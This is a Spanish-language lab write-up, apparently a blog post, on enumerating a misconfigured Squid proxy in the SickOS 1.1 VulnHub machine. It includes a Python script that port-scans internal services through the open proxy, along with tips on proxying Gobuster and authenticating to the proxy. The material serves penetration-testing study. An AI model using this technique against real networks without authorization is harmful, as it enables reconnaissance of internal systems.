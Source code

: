 ```yaml
---
title: "Enumeración y explotación de SQUID Proxies"
author: Tuch0
date: 2023-09-17
categories: [Vectores-de-Ataque]
tags: [squid-proxies]
image:
    path: ../../assets/Miniaturas/VectoresDeAtaque/squid-proxy.png
    width: 800
    height: 500
---
```



#### Desplegamos el laboratorio

```bash
# Descargamos el comprimido
https://www.vulnhub.com/entry/sickos-11,132/

# Importamos la ova 
# 1. VMware
# 2. VirtualBox
```

### ¿Que és?

> El **Squid Proxy** es un servidor web **proxy-caché** con licencia **GPL** cuyo objetivo es funcionar como **proxy** de la red y también como zona caché para almacenar páginas web, entre otros. Se trata de un servidor situado entre la máquina del usuario y otra red (a menudo Internet) que actúa como protección separando las os redes y como zona caché para acelerar el acceso a páginas web o poder restringir el acceso a contenidos
{: .prompt-info }

> Es decir, la función de un servidor proxy es centralizar el tráfico de una red local  hacia el exterior (Internet). Sólo el equipo que incorpora el servicio proxy ebe disponer de conexión a internet y el resto de equipos salen a través de él:

![](../../assets/VectoresDeAtaque/Enumeración-y-explotación-de-SQUID-Proxies/1.jpg)

Ahora bien, puede darse el caso en el que un servidor Squid Proxy se encuentre **mal configurado**, permitiendo en consecuencia a los atacantes recopilar información de dispositivos a los que normalmente no deberían tener acceso.
{: .prompt-info }

> Por ejemplo, en este tipo de situaciones, un atacante podría ser capaz de realizar peticiones a direcciones IP internas pasando sus consultas a través del Squid Proxy, pudiendo así realizar un escaneo de puertos contra determinados servidores situados en una **red interna**.
{: .prompt-info }

![](../../assets/VectoresDeAtaque/Enumeración-y-explotación-de-SQUID-Proxies/2.jpg)

![](../../assets/VectoresDeAtaque/Enumeración-y-explotación-de-SQUID-Proxies/3.jpg)

> Como vemos usamos el comando curl , o intentamos acceder vía web , no vemos nada por el puerto 80, pero al usar squid proxy es posible que si que haya contenido en el puerto 80 pero no tengamos acceso a si que vamos a aprovecharnos de el "squid proxy" , lo vamos a usar nosotros con el comando **"curl"**
{: .prompt-info }

![](../../assets/VectoresDeAtaque/Enumeración-y-explotación-de-SQUID-Proxies/4.jpg)

> Como vemos el proxy , esta mal configurado y no tiene credenciales por lo tanto lo podemo usar cuando queramos, ahora podemos configurar el proxy en varios sitios para hacer un escaneo:
{: .prompt-info }

#### FoxyProxy

![](../../assets/VectoresDeAtaque/Enumeración-y-explotación-de-SQUID-Proxies/5.jpg)

![](../../assets/VectoresDeAtaque/Enumeración-y-explotación-de-SQUID-Proxies/6.jpg)

#### Gobuster

![](../../assets/VectoresDeAtaque/Enumeración-y-explotación-de-SQUID-Proxies/7.jpg)


#### Ports Discovery Script Python

```python
#!/usr/bin/pytho3


# Importamos las librerias
import sys, signal, requests


# Funciones
def def_handler(sig, fram):
    print("\n\n[!] Saliendo... \n")
    sys.exit(1)


# Ctrl+C
signal.signal(signal.SIGINT, def_handler)


# Variable generales
main_url = "http://127.0.0.1"
squid_proxy = {'http':"http://192.168.0.116:3128"}


# Funciones
def portDiscovery():

    # Diccionario de puertos más comunes
    puertos_comunes = {20, 21, 22, 23, 25, 53, 80, 110, 119, 123, 143, 161, 194, 443, 465, 587, 993, 995, 1080,1433, 1521, 1723, 3306, 3389, 3690, 4333, 5060, 5432, 5800, 5900, 5985, 6379, 7001, 8000, 8080,8443, 8888, 9100, 9200, 9418, 9999, 10000, 11211, 27019, 28017, 50000, 50070, 50075}
    
    # Iteramos en cada puerto
    for tcp_port in puertos_comunes:
        
        # Trámitamos la petición
        r = requests.get(main_url + ':' + str(tcp_port), proxies=squid_proxy)

        # Validamos si es correcto
        if r.status_code != 503:
            
            # Mostramos por pantalla
            print("\n[+] Port " + str(tcp_port) + " - OPEN")



# Definimos flujo de el programa
if __name__ == "__main__":

    # Llamamos a la funciòn principal
    portDiscovery()
```

![](../../assets/VectoresDeAtaque/Enumeración-y-explotación-de-SQUID-Proxies/8.jpg)

> Cómo vemos hemos conseguido saber los puertos abiertos a través de el squid proxy

Herramienta para portDiscovery: `http://github.com/aancw/spose`
{: .prompt-info }

> **Cabe destacar que a veces tienes que autenticarte en el squid proxy , la forma más facil es hacerlo desde la URL**: `http://admin:password@192.168.0.116:3128`
{: .prompt-info }
